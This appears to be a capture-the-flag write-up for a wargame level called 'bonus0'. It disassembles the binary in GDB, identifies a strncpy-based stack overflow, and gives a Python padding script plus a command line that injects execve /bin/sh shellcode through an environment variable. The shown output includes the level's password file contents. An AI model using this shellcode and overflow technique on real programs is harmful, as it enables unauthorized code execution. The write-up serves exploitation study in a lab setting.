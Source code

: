 # Bonus0

First step - testing the program
```
$ ./bonus0
 -
Hello
 -
World
Hello World
$ ./bonus0
 -
a
 -
b
a b
```
The program wait an input 2 times and print the result

Start in GDB
```
(gdb-peda)$ disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:		push   ebp
   0x080485a5 <+1>:		mov    ebp,esp
   0x080485a7 <+3>:		and    esp,0xfffffff0
   0x080485aa <+6>:		sub    esp,0x40
   0x080485ad <+9>:		lea    eax,[esp+0x16]
   0x080485b1 <+13>:	mov    DWORD PTR [esp],eax
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    eax,[esp+0x16]
   0x080485bd <+25>:	mov    DWORD PTR [esp],eax
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    eax,0x0
   0x080485ca <+38>:	leave
   0x080485cb <+39>:	ret
End of assembler dump.
```
The main call a function "pp"
```
(gdb-peda)$ disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>:		push   ebp
   0x0804851f <+1>:		mov    ebp,esp
   0x08048521 <+3>:		push   edi
   0x08048522 <+4>:		push   ebx
   0x08048523 <+5>:		sub    esp,0x50
   0x08048526 <+8>:		mov    DWORD PTR [esp+0x4],0x80486a0
   0x0804852e <+16>:	lea    eax,[ebp-0x30]
   0x08048531 <+19>:	mov    DWORD PTR [esp],eax
   0x08048534 <+22>:	call   0x80484b4 <p>
   0x08048539 <+27>:	mov    DWORD PTR [esp+0x4],0x80486a0
   0x08048541 <+35>:	lea    eax,[ebp-0x1c]
   0x08048544 <+38>:	mov    DWORD PTR [esp],eax
   0x08048547 <+41>:	call   0x80484b4 <p>
   0x0804854c <+46>:	lea    eax,[ebp-0x30]
   0x0804854f <+49>:	mov    DWORD PTR [esp+0x4],eax
   0x08048553 <+53>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048556 <+56>:	mov    DWORD PTR [esp],eax
   0x08048559 <+59>:	call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:	mov    ebx,0x80486a4
   0x08048563 <+69>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048566 <+72>:	mov    DWORD PTR [ebp-0x3c],0xffffffff
   0x0804856d <+79>:	mov    edx,eax
   0x0804856f <+81>:	mov    eax,0x0
   0x08048574 <+86>:	mov    ecx,DWORD PTR [ebp-0x3c]
   0x08048577 <+89>:	mov    edi,edx
   0x08048579 <+91>:	repnz scas al,BYTE PTR es:[edi]
   0x0804857b <+93>:	mov    eax,ecx
   0x0804857d <+95>:	not    eax
   0x0804857f <+97>:	sub    eax,0x1
   0x08048582 <+100>:	add    eax,DWORD PTR [ebp+0x8]
   0x08048585 <+103>:	movzx  edx,WORD PTR [ebx]
   0x08048588 <+106>:	mov    WORD PTR [eax],dx
   0x0804858b <+109>:	lea    eax,[ebp-0x1c]
   0x0804858e <+112>:	mov    DWORD PTR [esp+0x4],eax
   0x08048592 <+116>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048595 <+119>:	mov    DWORD PTR [esp],eax
   0x08048598 <+122>:	call   0x8048390 <strcat@plt>
   0x0804859d <+127>:	add    esp,0x50
   0x080485a0 <+130>:	pop    ebx
   0x080485a1 <+131>:	pop    edi
   0x080485a2 <+132>:	pop    ebp
   0x080485a3 <+133>:	ret
End of assembler dump.
```
The function "pp" call a function "p". And strcpy, we can overflow
```
(gdb-peda)$ disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:		push   ebp
   0x080484b5 <+1>:		mov    ebp,esp
   0x080484b7 <+3>:		sub    esp,0x1018
   0x080484bd <+9>:		mov    eax,DWORD PTR [ebp+0xc]
   0x080484c0 <+12>:	mov    DWORD PTR [esp],eax
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	mov    DWORD PTR [esp+0x8],0x1000
   0x080484d0 <+28>:	lea    eax,[ebp-0x1008]
   0x080484d6 <+34>:	mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:	mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	mov    DWORD PTR [esp+0x4],0xa
   0x080484ee <+58>:	lea    eax,[ebp-0x1008]
   0x080484f4 <+64>:	mov    DWORD PTR [esp],eax
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	mov    BYTE PTR [eax],0x0
   0x080484ff <+75>:	lea    eax,[ebp-0x1008]
   0x08048505 <+81>:	mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>:	mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>:	mov    DWORD PTR [esp],eax
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
End of assembler dump.
```

---

Ok, so we have 1 buffer[54] in the main, will be fill with 2 buffer in `PP`, each 20bytes size, and they will be filled with buffer[1104] in `p` function.

The strncp function is the cause of exploit, be cause it can be copy without null terminated string and we can use it for fill main buffer with buffer_PP1 + buffer_PP2 + BUFFER_PP2 and exceed the size of main buffer.

Like usualy we find offset with gdp-peda and environment address for our shellcode. 
We can write script for create pad : 


```
#!/usr/bin/python

import struct

BUFF_PP1 = struct.pack("I",0xbffff6b8)
BUFF_PP2 = struct.pack("I",0xbffff6cc)

ENV = struct.pack("I", 0xbfffff8d)

PAD = ""
PAD += "A" * 4095
PAD += "\n"
PAD += "B" * 9
PAD += ENV
PAD += "C" * 7

print  PAD
```

And we can run our exploit :


```
$ ./exploit.py > payload
$ cat payload - | env -i payload=`python -c 'print("\x90"*50+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'` $PWD/bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBB����CCCCCCC��� BBBBBBBBB����CCCCCCC���

$whoami
bonus1

$cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
